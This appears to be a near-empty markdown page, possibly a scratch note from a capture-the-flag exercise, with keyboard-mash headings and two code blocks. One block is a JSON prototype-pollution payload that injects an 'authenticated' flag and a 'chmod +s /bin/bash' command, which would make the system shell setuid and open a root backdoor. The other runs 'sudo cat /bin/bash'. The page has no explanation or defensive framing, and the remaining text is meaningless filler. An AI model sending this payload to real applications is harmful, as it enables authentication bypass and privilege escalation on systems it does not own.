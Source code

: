 # DFJSAKLFHJDKLSA
## FDNJSKAF
###### DJKSALF

![GATITO1]()

 ``` bash
sudo cat /bin/bash
```

``` html 
{"__proto__":{"authenticated":true,"cmd":"chmod +s /bin/bash"}}

```

[[ROBOTS.TXT]]

